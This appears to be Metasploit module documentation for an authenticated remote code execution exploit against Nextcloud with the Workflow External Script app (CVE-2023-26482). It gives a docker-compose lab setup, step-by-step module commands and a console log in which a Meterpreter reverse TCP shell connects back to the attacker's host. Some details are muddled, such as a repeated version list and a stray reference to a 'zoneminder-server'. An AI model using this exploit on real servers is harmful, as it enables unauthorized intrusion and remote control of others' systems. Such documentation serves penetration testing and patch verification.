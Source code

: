 ## Description

This module exploits a command injection that leads to a remote execution in Nextcloud installations if the app Workflow External Scripts is also installed. 
The vulnerability affects Nextcloud versions >= 24.0.0, >= 25.0.0, >= 18.0.0, >= 19.0.0, >= 20.0.0, >= 21.0.0, >= 22.0.0, >= 23.0.0, >= 24.0.0, >= 25.0.0

A missing scope validation allowed users to create workflows which are designed to be only available for administrators. In combination with Workflow External Script, this vulnerability
leads to authenticated remote command execution.

More about the vulnerability detail: [CVE-2023-26482](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2023-26482).

The module will automatically use `cmd/linux/http/x64/meterpreter/reverse_tcp` payload.

The module will check if the target is vulnerable, by adding and removing a dummy-workflow.


## Vulnerable Application

[Nextcloud](https://nextcloud.com/) is a suite of client-server software for creating and using file hosting services.

This module has been tested successfully on Nextcloud versions:

* Nextcloud version 24.0.5

### Source and Installers

* [Source Code Repository](https://github.com/nextcloud/server/releases/tag/v24.0.5)
* [Docker](https://hub.docker.com/_/nextcloud)

### Docker Installation

This exploit was tested using a [nextcloud docker container](https://hub.docker.com/_/nextcloud) and [docker-compose](https://docs.docker.com/compose/)
with the following docker-compose.yml:

```yaml
volumes:
  nextcloud:
  db:

services:
  db:
    image: mariadb:10.6
    restart: always
    command: --transaction-isolation=READ-COMMITTED --log-bin=binlog --binlog-format=ROW
    volumes:
      - db:/var/lib/mysql
    environment:
      - MARIADB_ROOT_PASSWORD=root
      - MARIADB_PASSWORD=root
      - MARIADB_DATABASE=nextcloud
      - MARIADB_USER=nextcloud

  app:
    image: nextcloud:24.0.5
    restart: always
    ports:
      - 8080:80
    links:
      - db
    environment:
      - MYSQL_PASSWORD=root
      - MYSQL_DATABASE=nextcloud
      - MYSQL_USER=root
      - MYSQL_HOST=db
      - NEXTCLOUD_ADMIN_PASSWORD=admin
      - NEXTCLOUD_ADMIN_USER=admin
      - NEXTCLOUD_TRUSTED_DOMAINS="192.168.233.64:8080"
    depends_on:
      - db
```

**_NOTE:_** Change the IP-address and port for NEXTCLOUD_TRUSTED_DOMAINS for your setup

After `docker compose up -d` login as admin and install the workflow app: "Workflow external script" and
create a low privileged user `alice`. Make sure that you choose "Cron(Recommended)" in the Settings for "Background Jobs".
Before we can run the exploit, we need to start the cronjob. This is crucial because otherwise the
payload doesn't get triggered:

```
docker exec -it -u www-data nextcloud-app-1 /bin/bash
watch -n2 php cron.php
```

Wait until you the watch-command outputs something like: "Every 2.0s: php cron.php". 

## Verification Steps
Example steps in this format (is also in the PR):

1. Do: `use exploit/unix/webapp/nextcloud_workflows_rce`
2. Do: `set RHOSTS [ips]`
3. Do: `set LHOST [lhost]`
4. Do: `set RPORT 8080`
5. Do: `set USERNAME alice`
6. Do: `set PASSWORD alice-password`
7. Do: `run`
8. You should get a shell after a while

## Options

### TARGETURI

Remote web path to the nextcloud installation (default: /)

### USERNAME

The low-privileged username to authenticate to nextcloud

### PASSWORD

The password for the low-privileged user

## Scenarios

In this scenario the zoneminder-server has the IP address 192.42.0.254. The IP address of the metasploit host is
192.42.1.188.

### Nextcloud 24.0.5(docker-compose) 

The following demo shows how to use the exploit:

```
msf6 > use exploit/unix/webapp/nextcloud_workflows_rce
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/nextcloud_workflows_rce) > set RHOSTS 192.168.233.64
RHOSTS => 192.168.233.64
msf6 exploit(unix/webapp/nextcloud_workflows_rce) > set LHOST 192.168.233.117
LHOST => 192.168.233.117
msf6 exploit(unix/webapp/nextcloud_workflows_rce) > set RPORT 8080
RPORT => 8080
msf6 exploit(unix/webapp/nextcloud_workflows_rce) > set USERNAME alice
USERNAME => alice
msf6 exploit(unix/webapp/nextcloud_workflows_rce) > set PASSWORD CaeD4ohchaiv5ieDooBa
PASSWORD => CaeD4ohchaiv5ieDooBa
msf6 exploit(unix/webapp/nextcloud_workflows_rce) > run
[*] Started reverse TCP handler on 192.168.233.117:4444
[*] Sending payload..
[+] Workflow created
[*] Waiting for the payload to connect back ..
[*] Sending stage (3045380 bytes) to 192.168.233.64
[*] Meterpreter session 1 opened (192.168.233.117:4444 -> 192.168.233.64:37090) at 2025-04-10 13:27:49 +0000
[+] Payload connected!
[*] Cleaning up

meterpreter > getuid
Server username: www-data
```

## Limitations
Ensure that your `WfsDelay` advanced option is set to a value that allows `cron` to execute the payload. Default is 16 minutes
